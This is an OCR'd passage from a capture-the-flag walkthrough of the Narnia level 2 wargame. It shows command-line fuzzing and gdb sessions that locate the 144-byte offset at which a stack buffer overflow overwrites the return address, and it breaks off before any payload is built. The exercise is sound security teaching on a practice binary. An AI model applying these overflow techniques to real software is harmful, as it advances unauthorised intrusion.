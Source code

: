 ># ./narnia2 $(python -c 'print "A"*128')
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
>root@kali:~# ./narnia2 $(python -c 'print "A"*135')
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>root@kali:~# ./narnia2 $(python -c 'print "A"*150')
>Segmentation fault
>```
>
> Ok, Seg fault at 150 characters but not 135.  Let's get gdb up and running and try a few more to narrow it down to a specific value.
>
>```
># gdb narnia2
>(gdb) run $(python -c 'print "A"*150')
>Starting program: /root/narnia2 $(python -c 'print "A"*150')
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
>Program received signal SIGSEGV, Segmentation fault.
>0x41414141 in ?? ()
>(gdb) c
>Continuing.
>
>Program terminated with signal SIGSEGV, Segmentation fault.
>The program no longer exists.
>(gdb) run $(python -c 'print "A"*140')
>Starting program: /root/narnia2 $(python -c 'print "A"*140')
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
>Program received signal SIGSEGV, Segmentation fault.
>0xf7e81416 in _setjmp () from /lib/i386-linux-gnu/i686/cmov/libc.so.6
>(gdb) c
>Continuing.
>
>Program terminated with signal SIGSEGV, Segmentation fault.
>The program no longer exists.
>(gdb) run $(python -c 'print "A"*142')
>Starting program: /root/narnia2 $(python -c 'print "A"*142')
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
>Program received signal SIGSEGV, Segmentation fault.
>0xf7004141 in ?? ()
>(gdb) c
>Continuing.
>
>Program terminated with signal SIGSEGV, Segmentation fault.
>The program no longer exists.
>(gdb) run $(python -c 'print "A"*144')
>Starting program: /root/narnia2 $(python -c 'print "A"*144')
>
>Program received signal SIGSEGV, Segmentation fault.
>0x41414141 in ?? ()
>```
>
> At 142 characters we start seeing the ```A``` in the last two positions.  Adding two more, we have now completely overwritten that return address with ```A```. Let's see if we can pinpoint the actual address we are affecting.  Again, back to gdb.
>
>```asm
># gdb narnia2
>(gdb) run $(python -c 'print "A"*144')
>Starting program: /root/narnia2 $(python -c 'print "A"*144')
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000